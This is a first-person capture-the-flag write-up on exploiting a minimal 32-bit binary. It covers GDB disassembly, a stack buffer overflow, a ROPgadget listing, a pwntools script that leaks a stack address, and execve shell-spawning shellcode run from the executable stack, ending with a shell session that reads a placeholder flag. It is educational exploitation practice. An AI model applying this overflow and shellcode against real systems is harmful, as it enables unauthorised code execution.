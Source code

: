 # Start Write-up
Alright so my first steps were to download the binary and open it up in ghidra. Opening it up in ghidra yielded nothing because the program was a super basic opcodes. With no libraries. This made it really hard for ghidra to figure out what the functions were really doing. This meant I would have to open it up in GDB to see what was happening in the dissassembly.

I first ran the program to see what it did. All it did was send a 20-byte message:
`Let's start the CTF:`
then it gave a prompt. It seemed like anything you sent in the prompt would exit the program.

I opened the binary in GDB to find exactly that. Looking at the functions I found "\_start" was where all the magic happened. It was very crude instructions in 32-bit. It looked a little bit like this:

![Pasted image 20220113144304](https://user-images.githubusercontent.com/63262961/149428905-e619f0ad-0fd7-48ad-981c-3a42d0d86ae1.png)

I was interested in this part:
```
xor	ebx,ebx
mov	dl,0x3c
mov	al,0x3
int 0x80
```
This essentially called `read(0, ???, 0x3c)`
The ??? was confusing, but then I read up above `mov ecx,esp` which meant that ecx was representing the stack, so it would be `read(0, stack, 0x3c)`
This meant there was an easy buffer overflow, but not as easy as I originally imagined. Essentially the stack looked like this:
```
0xffffbf04 ◂— 0x2774654c ("Let'")
0xffffbf08 ◂— 0x74732073 ('s st')
0xffffbf0c ◂— 0x20747261 ('art ')
0xffffbf10 ◂— 0x20656874 ('the ')
0xffffbf14 ◂— 0x3a465443 ('CTF:')
0xffffbf18 —▸ 0x804809d (_exit)
```
So when the program ran it would overwrite the stack with your input up to `0x3c` bytes. So if you typed `blah` the stack would look like:
```
0xffffbf04 ◂— 0x68616c62 ("blah")
0xffffbf08 ◂— 0x74732073 ('s st')
0xffffbf0c ◂— 0x20747261 ('art ')
0xffffbf10 ◂— 0x20656874 ('the ')
0xffffbf14 ◂— 0x3a465443 ('CTF:')
0xffffbf18 —▸ 0x804809d (_exit)
```
This means that you would have to type 20 characters before you hit the return address.
`0x3c` = 60 so you have 60-20 = 40 bytes of buffer overflow. Thats a good amount. I ended up looking at the ROPgadgets to see what I could do to change the control flow of the program:
`$ ROPgadget --binary ./start`
```
0x0804809b : adc al, 0xc3 ; pop esp ; xor eax, eax ; inc eax ; int 0x80
0x0804808e : add al, 0xcd ; xor byte ptr [ecx], 0xdb ; mov dl, 0x3c ; mov al, 3 ; int 0x80
0x08048099 : add esp, 0x14 ; ret
0x08048086 : daa ; mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80 0x080480a0 : inc eax ; int 0x80
0x0804808f : int 0x80
0x0804809a : les edx, ptr [ebx + eax*8] ; pop esp ; xor eax, eax ; inc eax ; int 0x80
0x08048095 : mov al, 3 ; int 0x80
0x0804808d : mov al, 4 ; int 0x80
0x0804808b : mov bl, 1 ; mov al, 4 ; int 0x80
0x08048089 : mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80
0x08048093 : mov dl, 0x3c ; mov al, 3 ; int 0x80
0x08048087 : mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80
0x0804809d : pop esp ; xor eax, eax ; inc eax ; int 0x80
0x0804809c : ret
0x08048090 : xor byte ptr [ecx], 0xdb ; mov dl, 0x3c ; mov al, 3 ; int 0x80
0x0804809e : xor eax, eax ; inc eax ; int 0x80
0x08048091 : xor ebx, ebx ; mov dl, 0x3c ; mov al, 3 ; int 0x80
```
Seeing this I realized my options were limited, but I decided to start trying things out. The first gadget I tried was: `0x080480a0 : inc eax ; int 0x80` since I knew it would change the function that gets called. What I got was `0x18 + 1` for my eax value which corresponded to the `stime` syscall. After trying different inputs I found that eax was being saved from the `read` function which would return the size of the input. Which was `0x18`. When I increased the size of the input, I could get different syscall codes untill I reached `0x3c`(the max read size). Looking at my options for possible syscalls led to nothing. So that idea was scrapped.

The next idea I had was to use shellcode in my input to run some code (maybe pop a shell). Looking at `vmmap` I realized that might be possible since the stack was executable. The addresses of the stack were randomized though, so I had to find a way to leak the stack. Looking at the ROPgadgets I saw this function:
`0x08048087 : mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80`
Essentially this would print out 20 bytes from the stack. since we had already moved the stack pointer past the string that it gives, it would run: `write(1, stack, 0x14)` this is what my program looked like:
```python
#! /usr/bin/env python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
addr_ecx2 = 0x08048087
p = process("./start")
gdb.attach(p, 'b _start')
p.recv()
payload = b"A"*(0x14)
payload += p32(addr_ecx2)
p.send(payload)
x = p.recv()
print(hex(u32(x[0:4])))
print(hex(u32(x[4:8])))
print(hex(u32(x[8:12])))
p.interactive()
```
I was able to leak 3 addresses with one of them in the same page as the stack:(`x[0:4]`)
This was some really good news. It meant I could run shellcode directly. So I created a new program that would send Shellcode in my input and then send the program to that spot in the stack. This would be the control flow:
`_start` -> enter `"A"*0x14 + 0x08048087` -> `_start+39` = `0x08048087` -> read stack address -> enter `shellcode + stack address` -> `stack address`
The program I wrote did exactly that. My shellcode looked like this:
`"j\x0bXhn/shh//bi1\xc9\x99T[\xcd\x80"`
And it didn't work.

Why? The shellcode I thought was too long. I thought the shellcode was somehow breaking after like 10 characters. I spent an insane amount of time trying to get the shellcode to be small enough to fit into the space.
Then I looked really hard at what was happening. The instructions from my shellcode looked like this:
```
push $SYS_execve
pop %eax
push $0
push $0x68732f6e
push $0x69622f2f
xor %ecx, %ecx
cltd
push %esp
pop %ebx
int $0x80
```
I noticed that when the program got to `push $0x69622f2f` it would overwrite the rest of the shellcode. OF COURSE!!! The shellcode was on the stack and pushing values onto the stack would overwrite those values.

All I had to do to solve it was place the shellcode at the end of my input so it would overwrite useless parts of the stack and boom! it worked:
```
$ ls
bin boot dev etc home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var
$ cd home
$ cd start
$ ls
flag
run.sh
start
$ cat flag
FLAG{EXAMPLE_FLAG}
```
The final expoit script is in this repo.
